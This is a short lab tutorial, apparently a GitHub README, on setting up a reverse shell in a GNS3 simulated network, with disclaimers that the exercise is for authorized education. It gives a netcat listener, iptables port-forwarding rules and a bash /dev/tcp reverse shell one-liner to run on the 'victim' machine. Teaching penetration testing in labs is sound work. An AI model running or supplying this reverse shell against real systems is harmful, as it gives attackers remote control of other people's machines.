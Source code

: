# Reverse Shell Exercise in GNS3

# Note: Unauthorized penetration testing is illegal. Conduct this exercise only in an educational or authorized setting.

This document provides step-by-step instructions for setting up a reverse shell using a simulated environment in GNS3. Please note that this is for educational purposes and should only be conducted in an environment where you have explicit authorization.

## Table of Contents

1. [Set Up Listener on the Kali Machine](#step-1-set-up-listener-on-the-kali-machine)
2. [Configure Port Forwarding on the Router](#step-2-configure-port-forwarding-on-the-router)
3. [Create and Deliver the Payload](#step-3-create-and-deliver-the-payload)
4. [Catch the Reverse Shell](#step-4-catch-the-reverse-shell)
5. [Monitor Traffic (Optional)](#step-5-monitor-traffic-optional)
6. [Post-Test Cleanup](#step-6-post-test-cleanup)

---

## Step 1: Set Up Listener on the Kali Machine

Open the terminal on the Kali machine and run the following command:

```bash
nc -nlvp 4444


## Step 2: Configure Port Forwarding on the Router

Assuming a Linux-based router in GNS3, open its terminal and run:


bash
Copy code
sudo iptables -t nat -A PREROUTING -p tcp --dport 4444 -j DNAT --to-destination 192.168.122.208:4444
sudo iptables -t nat -A POSTROUTING -j MASQUERADE

## Step 3: Create and Deliver the Payload
Execute the following shell command on the victim machine (192.168.122.47):

bash
Copy code
/bin/bash -i >& /dev/tcp/192.168.122.208/4444 0>&1

## Step 4: Catch the Reverse Shell

If everything is set up correctly, the Netcat listener on your Kali machine should catch the reverse shell from the victim machine.

## Step 5: Monitor Traffic (Optional)

You can use Wireshark for this purpose. To capture packets in GNS3, right-click on a connection and choose "Start Capture."

## Step 6: Post-Test Cleanup

To disable the port forwarding rules and stop the Netcat listener:

bash
Copy code
sudo iptables -t nat -D PREROUTING -p tcp --dport 4444 -j DNAT --to-destination 192.168.122.208:4444
sudo iptables -t nat -D POSTROUTING -j MASQUERADE

# Note: Unauthorized penetration testing is illegal. Conduct this exercise only in an educational or authorized setting.

